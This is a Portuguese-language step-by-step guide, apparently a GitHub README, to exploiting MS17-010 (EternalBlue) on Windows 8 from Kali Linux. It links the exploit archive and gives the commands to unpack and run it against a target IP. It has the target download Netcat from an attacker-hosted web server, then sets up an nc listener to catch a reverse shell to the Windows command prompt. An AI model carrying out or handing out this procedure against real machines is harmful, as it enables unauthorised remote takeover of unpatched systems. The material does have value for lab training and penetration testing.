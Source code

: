 Realize o download do exploit, descompacte o arquivo ms17-010.tar.gz.
<br>

https://github.com/caique-garbim/MS17-010/raw/main/ms17-010.tar.gz
```
tar xf ms17-010.tar.gz
```
```
cd ms17-010/win8
```

### Exploração
No arquivo **exploit_win8.py** é necessário realizar a seguinte alteração:
- Na linha nº 985 substitua pelo endereço IP do Kali
- Salve a alteração

![image](https://user-images.githubusercontent.com/76706456/197097891-d3b90928-60f4-4bd4-b169-c46fa5fe8f24.png)

Inicie um web server neste mesmo diretório **(em outro terminal)**:
```
python3 -m http.server 80
```
Execute o **exploit_win8.py** informando o IP do Windows alvo:
```
python2 exploit_win8.py 192.168.10.114
```
Observe que o Windows realizou a requisição para baixar o Netcat:
![image](https://user-images.githubusercontent.com/76706456/197098638-4c257045-43bb-462c-ab83-e3104b43d49b.png)

No arquivo **exploit_win8.py** é necessário realizar outra alteração:
- Comente (#) a linha nº 985
- Remova o comentário (#) da linha nº 988, substitua pelo endereço IP/porta do Kali que deseja receber a conexão reversa
- Salve as alterações

![image](https://user-images.githubusercontent.com/76706456/197099011-1fa8c55a-54ac-443c-8925-93d3bb8d6798.png)

Prepare o Kali para receber a conexão reversa:
```
rlwrap nc -vnlp 8081
```
Execute o **exploit_win8.py** informando o IP do Windows alvo **(em outro terminal)**:
```
python2 exploit_win8.py 192.168.10.114
```

Observe que a conexão reversa foi estabelecida e foi obtido acesso ao prompt de comando do Windows:
![image](https://user-images.githubusercontent.com/76706456/197099616-02297e15-8196-40cd-827a-5fce3c6263bc.png)
